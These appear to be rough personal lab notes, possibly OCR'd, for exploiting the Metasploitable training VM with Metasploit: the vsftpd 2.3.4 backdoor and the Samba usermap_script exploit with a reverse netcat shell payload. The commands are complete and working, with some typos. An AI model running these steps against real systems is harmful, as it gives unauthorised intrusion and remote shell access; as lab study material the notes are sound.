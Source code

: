 runs the current task

for exploitation run following commands

`msfconsole`

`use exploit/unix/ftp/vsftpd_234_backdoor`

`show options`

`set RHOST <ip of target>`

prev commands connect to the back door

`show options`

`exploit`

run again if the last command fails

### metasploiutable 139 tcp metbios-ssn samba smbd 3.X info gathering with back door

`chmod +x`

search - metbios-ssn samba smbd 3.X exploits

`msfconsole`

`use exploit/multi/samba/usermap_script`

`show options`

show options will give different output for different exploits

`set RHOST <ip of target>`

`show options`

`show payloads`

`set PAYLOAD cmd/unix/reverse_netcat`

`show options`

`set LHOST <host ip>`

`show options`

`set lport <host listening port>`

host listening port can be anything

`show options\`

`exploit`\

### metasploitable gui

`chmod +x <installer file name>`

`./<installer file name>`

`service metasploit start`
